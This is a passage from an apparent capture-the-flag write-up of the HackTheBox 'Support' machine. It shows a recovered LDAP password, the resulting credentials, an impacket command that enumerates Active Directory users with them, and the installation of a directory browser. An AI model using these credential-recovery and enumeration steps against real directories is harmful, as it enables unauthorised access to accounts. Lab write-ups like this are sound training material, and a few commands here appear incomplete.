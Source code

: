 ```bash
python3 recoverpass.py 
Recovered Password: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

**creds**:
```plaintext
support//ldap:0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

## Exploitation

Now that we got credentials, we try to search in to the machine using ldap. 
ldapsearch didn't work on mine so I used impacket-GetADUser instead

```bash
impacket-GetADUsers -all support.htb/ldap -dc-ip support.htb0
```
![alt text](Snapshots/Support-image-10.png)

Instead of ldapsearch or impacket, use Apache Directory Studio so we can have a better view of the AD

```bash
wget https://dlcdn.apache.org/directory/studio/2.0.0.v20210717-M17/ApacheDirectoryStudio-2.0.0.v20210717-M17-linux.gtk.x86_64.tar.gz
```

```bash
sudo gunzip
sudo tar -xvf
./Apache-Directory-Studio
```
